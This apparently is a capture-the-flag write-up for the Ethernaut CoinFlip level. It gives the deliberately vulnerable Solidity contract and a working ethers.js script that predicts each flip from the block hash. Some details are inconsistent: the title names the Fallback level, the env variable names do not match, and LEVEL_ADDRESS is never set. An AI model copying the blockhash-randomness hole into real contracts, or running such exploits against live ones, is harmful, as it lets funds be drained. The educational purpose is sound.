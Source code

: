 ## Fallback Level Outline

**Difficulty : 3/10**

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

## Solution
Because the flip is calculated onchain using the previous blockhash, we can predict what the outcome will be by simulating the coinflip offchain and then submitting the right predition.

This level does not use foundry as it will be solved using a simple [ethersjs](https://docs.ethers.io/v5/) script. **Feel free to contribute if you have a solution using only foundry

### Walkthrough

1. set up a node project
```console
npm init
```

2. install the dotenv and ethersjs package 
```console
npm install ethers
npm install dotenv
```

3. create a `.env` file with the following variables
- `PRIVATE_KEY`
- `NODE_URL`
 
```console
touch .env
ECHO PRIVATE_KEY=<your-private-key-here> >> .env
ECHO NODE_URL=<your-node-url-here> >> .env
```
4. create a `src/coinFlip.js` file to hold our script

```javascript
const ethers = require('ethers');
require('dotenv').config();

const NODE_URL = process.env.RINKERBY;
const PRIVATE_KEY = process.env.PRIVATE_KEY;
const LEVEL_ADDRESS = process.env.LEVEL_ADDRESS;

const provider = new ethers.providers.JsonRpcProvider(NODE_URL);
const wallet = new ethers.Wallet(PRIVATE_KEY);
const signer = wallet.connect(provider);

const FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

const coinFlipContract = new ethers.Contract(
  LEVEL_ADDRESS,
  ["function flip(bool _guess) public returns (bool)"],
  signer
)

let correctFlips = 0;

// everytime there is a new block lets get it's number
provider.on('block', async (blockNum) => {
  console.log("blockNum : ", blockNum);
  let blockData = await provider.getBlock(blockNum);
  let blockHash = blockData.hash;
  let blockValue = parseInt(blockHash, 16);
  let coinFlip = Math.floor(blockValue / FACTOR);
  let side = coinFlip == 1 ? true : false;

  const tx = await coinFlipContract.flip(side);
  const promise = tx.wait();
  const receipt = await promise;

  correctFlips++;
  console.log(correctFlips);
})

```

5. run the script that we just created
```
node src/coinFlip.js
```
